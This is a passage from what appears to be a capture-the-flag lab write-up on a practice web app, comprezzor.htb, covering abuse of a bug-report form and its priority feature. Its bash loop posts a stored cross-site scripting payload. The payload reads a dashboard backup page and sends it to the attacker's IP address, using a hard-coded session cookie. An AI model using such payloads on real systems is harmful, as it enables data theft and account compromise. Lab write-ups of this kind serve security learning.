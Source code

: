 Next question is how to escalate with what we can do on a web application like this. The hint on the discord being that we need to escalate it before our tier of user context reads it automatically by what every automated users are here to do that
![](priorityracecondition.png)

The priority levels are just 0 or 1
```
/change_priority?report_id=1&priority_level=1
```


![](thebuttonsworkgoodbyefeaturerequest.png)

For example: making sure Karen can.. *"SPEAK TO THE MANAGER please, don't talk to me like that, why are you filming, I'm filming. This error is unacceptable, I need to speak to a manager please"*:
![](changingthekarenpriority.png)


So from here we need could make this very easy for our selves and delete all the reports rather than worry about the dynamism as there is less than two days till no more points. 
![](testingraceconditions.png)

![](interesting.png)

![](anditsgone.png)

So the next ID will be 38 and so on. The best way I can think of is to automate this to reduce human speed issues.

Although this approach is good, I think that in hindsight about the time limits I have it would now be better to do this in burpsuite, but as a Beyond Root post-box-retirement I will try this and also as a python script instead.
```bash
for ID in $(seq 40 100); do
curl -X POST -L "http://report.comprezzor.htb/report_bug" -H 'Cookie: user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4' -d 'report_title=Cookies+please&description=<script>+var+url+%3d+"http%3a//dashboard.comprezzor.htb/backup"%3bvar+xhr+%3d+new+XMLHttpRequest()%3bxhr.open("GET",url,false)%3bxhr.send()%3bvar+resp+%3d+xhr.responseText%3bvar+xhr2.open("POST","http%3a//10.10.14.39%3a8445/",false)%3bxhr2.send(resp)%3b</script>';
sleep 1;
curl -X POST "http://dashboard.comprezzor.htb/report/$ID/change_priority?report_id=$ID&priority_level=1" -H 'Cookie: user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4';
done
```

The set priority part did not work, but I did spam the the bug reporting form and each was slowly consumed, by the script on the machine
![](spammedthemandsetthemmaunally.png)

![](tilltherewasnone.png)
